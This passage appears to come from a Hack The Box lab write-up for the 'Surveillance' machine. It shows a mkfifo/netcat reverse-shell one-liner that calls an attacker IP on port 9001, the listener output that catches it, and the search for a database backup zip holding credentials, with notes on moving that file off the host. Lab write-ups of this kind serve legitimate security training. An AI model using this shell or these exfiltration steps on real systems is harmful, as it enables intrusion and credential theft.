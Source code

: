 So now I figured we cannot really do anything here so we might need a stable shell, and that can be made possible by sending a reverse shell and firing up a listener to get back a connection. One could use this one liner. 

```bash 
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.35 9001 >/tmp/f 
```

We can then start up a listener on another terminal and get this  

```shell
dexter@lab:~/lab/HTB/machines/surveilance$ nc -lnvp 9001 

listening on [any] 9001 ... 

connect to [10.10.14.35] from (UNKNOWN) [10.10.11.245] 55234 

bash: cannot set terminal process group (1111): Inappropriate ioctl for device 

bash: no job control in this shell 

www-data@surveillance:~/html/craft/web/cpresources$  
```

In the home directory we can see we have two users, matthew and zoneminder but it seems we don't have permissions here. 

```shell
www-data@surveillance:/home$ ls -la    

ls -la 

total 16 

drwxr-xr-x  4 root       root       4096 Oct 17 11:20 . 

drwxr-xr-x 18 root       root       4096 Nov  9 13:19 .. 

drwxrwx---  3 matthew    matthew    4096 Nov  9 12:45 matthew 

drwxr-x---  2 zoneminder zoneminder 4096 Nov  9 12:46 zoneminder 
```

We can then go through the files in here and after some time we could come across this zip file, now the zip file is interesting since it could hold some information like credentials from the database. 

```shell
www-data@surveillance:~/html/craft/storage/backups$ ls 

ls 

surveillance--2023-10-17-202801--v4.4.14.sql.zip 
```

First, you need to transfer the file containing your zip file to a location that is accessible by the web server. This is typically the web server's root directory or a directory where files are served to clients. You can use various methods to transfer the file, such as uploading it via FTP, SCP (Secure Copy), or using a file manager if you have access to a web-based file management interface. Once the file is uploaded to the web server directory, it becomes accessible via HTTP. You can then use a tool like wget on the target system to download the zip file from the web server.  
